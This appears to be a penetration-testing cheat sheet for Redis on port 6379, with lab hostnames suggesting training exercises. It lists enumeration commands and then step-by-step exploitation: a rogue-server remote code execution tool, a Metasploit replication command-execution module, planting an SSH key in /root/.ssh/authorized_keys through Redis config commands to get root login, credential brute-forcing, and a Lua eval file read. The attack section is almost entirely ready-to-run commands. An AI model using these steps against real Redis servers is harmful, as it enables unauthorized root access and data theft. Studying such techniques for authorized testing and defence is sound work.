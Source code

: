 # 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

## Exploitation

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```



